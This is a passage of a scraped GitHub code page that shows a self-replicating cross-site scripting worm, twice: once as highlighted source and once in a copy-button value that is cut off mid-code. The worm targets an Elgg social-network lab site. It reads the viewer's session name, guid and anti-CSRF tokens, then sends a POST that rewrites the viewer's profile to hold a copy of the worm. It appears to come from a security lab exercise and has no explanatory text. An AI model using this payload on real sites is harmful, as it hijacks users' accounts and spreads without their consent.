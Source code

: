     <span class="pl-k">var</span> <span class="pl-s1">content</span> <span class="pl-c1">=</span> <span class="pl-s1">userName</span> <span class="pl-c1">+</span> <span class="pl-s1">guid</span> <span class="pl-c1">+</span> <span class="pl-s1">ts</span> <span class="pl-c1">+</span> <span class="pl-s1">token</span> <span class="pl-c1">+</span> <span class="pl-s1">description</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">samyGuid</span> <span class="pl-c1">=</span> <span class="pl-c1">47</span><span class="pl-kos">;</span>
    <span class="pl-k">if</span> <span class="pl-kos">(</span><span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">guid</span> <span class="pl-c1">!=</span> <span class="pl-s1">samyGuid</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
      <span class="pl-c">//Create and send Ajax request to modify profile</span>
      <span class="pl-k">var</span> <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-c1">null</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">open</span><span class="pl-kos">(</span><span class="pl-s">"POST"</span><span class="pl-kos">,</span> <span class="pl-s1">sendurl</span><span class="pl-kos">,</span> <span class="pl-c1">true</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Host"</span><span class="pl-kos">,</span> <span class="pl-s">"www.xsslabelgg.com"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span>
        <span class="pl-s">"Content-Type"</span><span class="pl-kos">,</span>
        <span class="pl-s">"application/x-www-form-urlencoded"</span>
      <span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">send</span><span class="pl-kos">(</span><span class="pl-s1">content</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-kos">}</span>
  <span class="pl-kos">}</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script type=&quot;text/javascript&quot; id=&quot;worm&quot;>
  window.onload = function () {
    var headerTag = '<script id=&quot;worm&quot; type=&quot;text/javascript&quot;>';
    var jsCode = document.getElementById(&quot;worm&quot;).innerHTML;
    var tailTag = &quot;</&quot; + &quot;script>&quot;;
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = &quot;&amp;name=&quot; + elgg.session.user.name;
    var guid = &quot;&amp;guid=&quot; + elgg.session.user.guid;
    var ts = &quot;&amp;__elgg_ts=&quot; + elgg.security.token.__elgg_ts;
    var token = &quot;&amp;__elgg_token=&quot; + elgg.security.token.__elgg_token;
    var description =
      &quot;&amp;description=<p>modified by Samy<p>&quot; +
      wormCode +
      &quot;&amp;accesslevel[description]=2&quot;;
    //Construct the content of your url.
    var sendurl = &quot;http://www.xsslabelgg.com/action/profile/edit&quot;;
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open(&quot;POST&quot;, sendurl, true);
